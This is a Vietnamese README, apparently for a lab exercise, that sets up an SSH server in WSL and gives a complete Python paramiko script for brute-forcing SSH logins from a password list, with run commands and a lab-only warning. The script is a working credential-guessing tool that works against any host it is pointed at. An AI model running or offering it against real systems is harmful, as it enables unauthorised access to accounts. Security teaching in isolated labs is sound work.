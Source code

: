 
#  SSH Brute-force Tool (WSL Lab)

Công cụ Python mô phỏng brute-force SSH login trên máy thật Windows, sử dụng WSL Ubuntu làm SSH server.

---

## 📦 Cấu trúc thư mục

```

lab\_ssh\_bruteforce/
├── ssh\_brute\_force.py
├── passwords.txt
└── README.md

````

---

## ✅ Phần 1: Cài đặt SSH Server trên WSL (Ubuntu)

### 1. Cài SSH server

```bash
sudo apt update
sudo apt install openssh-server -y
````

### 2. Đặt mật khẩu cho user WSL

```bash
passwd
```

### 3. Bắt đầu dịch vụ SSH

```bash
sudo service ssh start
```

### 4. Lấy IP WSL

```bash
ip addr | grep inet
```

Ghi lại IP `172.x.x.x` để kết nối từ Windows.

---

## ✅ Phần 2: Kiểm tra SSH từ Windows

```bash
ssh <username>@<ip_WSL>
```

---

## ✅ Phần 3: Tập tin mật khẩu

**passwords.txt**

```txt
1234
admin
test
123456
your_real_password
```

---

## ✅ Phần 4: Mã nguồn brute-force

**ssh\_brute\_force.py**

```python
import paramiko
import sys
import time

def ssh_brute_force(ip, username, password_file):
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())

    with open(password_file, "r", encoding="utf-8") as file:
        passwords = file.readlines()

    print(f"[+] Bắt đầu brute-force SSH trên {ip} với user '{username}'")

    for password in passwords:
        password = password.strip()
        try:
            ssh.connect(ip, username=username, password=password, timeout=3)
            print(f"[✓] Thành công! Mật khẩu là: {password}")
            ssh.close()
            return
        except paramiko.AuthenticationException:
            print(f"[-] Sai mật khẩu: {password}")
        except paramiko.SSHException:
            print("[!] Quá nhiều lần thử, tạm nghỉ...")
            time.sleep(5)
        except Exception as e:
            print(f"[!] Lỗi khác: {e}")
            return
    print("[×] Không tìm được mật khẩu phù hợp.")

if __name__ == "__main__":
    if len(sys.argv) != 4:
        print("Cách dùng: python ssh_brute_force.py <IP> <username> <password_file>")
        sys.exit(1)

    target_ip = sys.argv[1]
    username = sys.argv[2]
    password_file = sys.argv[3]

    ssh_brute_force(target_ip, username, password_file)
```

---

## ✅ Phần 5: Chạy chương trình

```bash
python ssh_brute_force.py 172.27.199.168 bocchi89 passwords.txt
```

---

## ✅ Phần 6: Xem log SSH trong WSL

```bash
sudo tail -f /var/log/auth.log
```

Nếu không có log:

```bash
sudo apt install rsyslog -y
sudo service rsyslog start
```

---

## ⚠️ Cảnh báo

* Chỉ sử dụng trong lab nội bộ (WSL).
* Không tấn công hệ thống thật nếu không được phép.

---
